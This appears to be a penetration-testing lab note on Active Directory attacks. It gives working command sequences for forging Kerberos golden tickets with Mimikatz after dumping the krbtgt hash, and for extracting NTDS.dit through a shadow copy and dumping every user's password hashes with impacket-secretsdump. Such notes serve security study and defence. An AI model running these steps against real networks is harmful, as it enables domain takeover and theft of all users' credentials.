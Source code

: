 
### Golden Ticket

`For this technique to work we will require a Domain Admins group account or to compromise a DC itself to work as a persistence method.`

If we can get the krbtgt hash we can create our own self-made custom TGTs - golden tickets.

golden tickets give us permission to access the entire domains resources.

We could create a TGT stating that a non-priv user is a member of the domain admins group and the domain controller will trust it because it is correctly encrypted.

We can test our access to so a host using:
```
PsExec64.exe \\DC1 cmd.exe
```
and find that we are denied access.

We can extract the hash of the krbtgt account using Mimikatz:
```
privilege::debug
lsadump::lsa /patch
```

This will provide us with the domain SID and the NTLM of the krbtgt account. We can now forge a golden ticket.

`Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain.`


now on a compromised computer we can delete any existing kerberos tickets:
```
kerberos::purge
```

Get the domain SID of the current domain we are on:
```
whoami /user
```

then forge and inject a golden ticket with the SID we just obtained:
```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

`Mimikatz provides two sets of default values when using the golden ticket option: the user ID and the groups ID. The user ID is set to 500 by default, which is the RID of the built-in administrator for the domain. The values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group.`

when can then use:
```
misc::cmd
```

and verify out golden ticket works:
```
PsExec.exe \\dc1 cmd.exe

whoami

whoami /groups
```

We have to use the hostname - if we use the ip our access will be denied.


### Shadow Copies

requires domain admin

A shadow copy is also known as the `Volume Shadow Service (VSS)`. its a MS backup technology that allows creation of snapshots of files or entire volumes.

this can be abused to create a shadow copy that will allows us to extract the AD database NTDS.dit file. Once obtained we need the SYSTEM hive and then we can extract every user credential offline on our local kali.

we can run the utility with an elevated CMD:
```
vshadow.exe -nw -p C:
```

Take note of the shadow copy device.

we can then copy the DB using:
```
copy <shadow_copy_device>\windows\ntds\ntds.dit c:\ntds.dit.bak
```

example:
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

We then need to save the SYSTEM hive from the windows registry:
```
reg.exe save hklm\system c:\system.bak
```

Now we can move both these .bak files to our kali machine and extract all the information.

extract the information using:
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

We now have all the NTML hashes and kerberos keys for every AD user.

We can now attempt to crack them or use them in pass the hash attacks.

